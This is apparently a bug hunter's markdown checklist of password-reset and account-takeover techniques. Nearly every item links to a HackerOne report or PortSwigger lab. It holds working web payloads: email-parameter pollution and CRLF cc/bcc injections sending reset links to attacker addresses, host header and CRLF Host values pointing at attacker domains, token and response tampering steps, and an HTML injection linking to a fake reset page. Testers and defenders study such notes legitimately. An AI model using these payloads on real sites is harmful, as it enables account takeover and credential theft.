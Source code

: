```yaml
---
tags:
  - web_hunting
  - logic-bugs
  - web-app-security
---
```

- [ ] **[Weak Cryptography to Account Takeover’s](https://vasuyadav0786.medium.com/weak-cryptography-to-account-takeovers-87782224ed0d)** 
- [ ] **[Weak Cryptography in Password Reset](https://infosecwriteups.com/weak-cryptography-in-password-reset-to-full-account-takeover-fc61c75b36b9)**
- [ ] [Host Header Poisoning](https://hackerone.com/reports/1108874)
    [0xacb.com/normalization_table](https://0xacb.com/normalization_table)
    ```python
    victim.com@attacker.com 
    ```
- [ ] **[IDN Homograph Attack leads to ATO](https://infosecwriteups.com/how-i-was-able-to-change-victims-password-using-idn-homograph-attack-587111843aff)**  
- [ ] _**Password reset with manipulating email parameter (BAC)**_
```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d**  
victim@hack.secry**%00**  
victim@hack.secry**{{}}**
```

```python
step 1: Attacker Enter the victim's email or mobile number into the forgot password field.
step 2: Attacker intercept the request and got JSON data like that

{“email”:”victim@gmail.com”,”token”:”1234"}
step 3: Attacker change victim email to his email id

{“email”:”attacker@gmail.com”,”token”:”1234"}
and forward the request.

*Notice on the old token is deactivated or not.
```
- [ ] **Response Manipulation to ATO**
    
    ```jsx
    1. Do Normal Reset Password Process and note the successful  response 
    2. Request for reset password token 
    3. enter 00000 or any random number 
    4. Intercept the response
    5. delete error message and change the status code to 200 and change body like what you noted in step1
    ```    
- [ ] IDOR to ATO
    
    **IDOR on Reset Password**
    
    The last one was also an Basic IDOR, When I requested for reset password then the request response looks like this
    
    ![https://miro.medium.com/v2/1*7GQ1sbFDEllEY1kpQodGoA.jpeg](https://miro.medium.com/v2/1*7GQ1sbFDEllEY1kpQodGoA.jpeg)
    
    Then OTP came to my email and I entered the OTP but when I entered new password and captured that request
    
    ![https://miro.medium.com/v2/1*Vk7-7Tdd_bFmWAul2_BsSQ.jpeg](https://miro.medium.com/v2/1*Vk7-7Tdd_bFmWAul2_BsSQ.jpeg)
    
    Then I noticed there was no OTP field, but there was a user id, which was encrypted but was being leaked in the response, so I just replaced it with the user id of another account, and bam, my other account’s password was changed.
    
- [ ] Race Condition
    
    [Lab: Exploiting time-sensitive vulnerabilities | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/race-conditions/lab-race-conditions-exploiting-time-sensitive-vulnerabilities)
    
- [ ] Play with token
    
    ```python
    1- Completely remove the token
    2- change it to 00000000...
    3- use null/nil value
    4- try expired token
    5- try an array of old tokens
    6- look for race conditions
    7- change 1 char at the begin/end to see if the token is evaluated
    8- use unicode char jutzu to spoof email address
    ```
- [ ] **[Password reset broken logic [Portswigger]](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)**
- [ ] **[No length on password](https://hackerone.com/reports/1411363)**
- [ ] **[[XSS|XSS]] in email section**
- [ ] **[Reset/Forgotten Password Bypass [Hacktricks]](https://book.hacktricks.xyz/pentesting-web/reset-password)**
- [ ] **[Bruteforcing password reset tokens](https://hackerone.com/reports/271533)**
- [ ] **[No Rate Limit On Reset Password](https://hackerone.com/reports/1166066)**
- [ ] **[Enumeration of username on password reset page](https://hackerone.com/reports/806151)**
- [ ] **[Password reset token leaked via Referer header](https://hackerone.com/reports/1320242)**
    - Request password reset to your email address
    - Click on the password reset link
    - Dont change password
    - Click any 3rd party websites(eg: Facebook, twitter)
    - Intercept the request in burpsuite proxy
    - Check if the referer header is leaking password reset token.
    **Reference:**
    - [https://hackerone.com/reports/342693](https://hackerone.com/reports/342693)
    - [https://hackerone.com/reports/272379](https://hackerone.com/reports/272379)
    - [https://hackerone.com/reports/737042](https://hackerone.com/reports/737042)
    - [https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a](https://medium.com/@rubiojhayz1234/toyotas-password-reset-token-and-email-address-leak-via-referer-header-b0ede6507c6a)
    - [https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1](https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1)
    **Impact**
    It allows the person who has control of particular site to change the user’s password (CSRF attack), because this person knows reset password token of the user.
- [ ] [**Failure to Invalidate Session > On Password Reset**](https://hackerone.com/reports/411337)
- [ ] **[HTML_Injection_on_password_reset_page](https://github.com/KathanP19/HowToHunt/blob/master/HTML_Injection/HTML_Injection_on_password_reset_page.md)**
    ```
    ### Steps
    
    1. Create your account
    2. Edit your name to `<h1>attacker</h1>` or `"abc><h1>attacker</h1>` and save it.
    3. Request for a reset password and check your email.
    4. You will notice the `<h1>` tag getting executed
    
    * HTML injection are usually considered as low to medium severity bugs but you can escalate the severity by serving a
    malicious link by using `<a href>` for eg: `<h1>attacker</h1><a href="your-controlled-domain"Click here</a>`
    
    * You can redirect the user to your malicious domain and serve a fake reset password page to steal credentials
    Also you can serve a previously found XSS page and steal user cookies etc etc.. The creativity lies on you..
    
    ``` 
- [ ] **Password Reset Token Sent Over HTTP**
- [ ] **Token is Not Invalidated After Use**
- [ ] **Cleartext Transmission of Session Token**
- [ ] **[Password Policy Restriction Bypass](https://hackerone.com/reports/1675730)**
- [ ] Token is Not Invalidated After Email Change/Password Change
	- [Chaturbate | Report #411337 - Forget password link not expiring after email change. | HackerOne](https://hackerone.com/reports/411337)
- [ ] Token Has Long Timed Expiry
- [ ] Token is Not Invalidated After New Token is Requested
- [ ] Token is Not Invalidated After Login
- [ ] CRLF in URL
	```
	with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
	```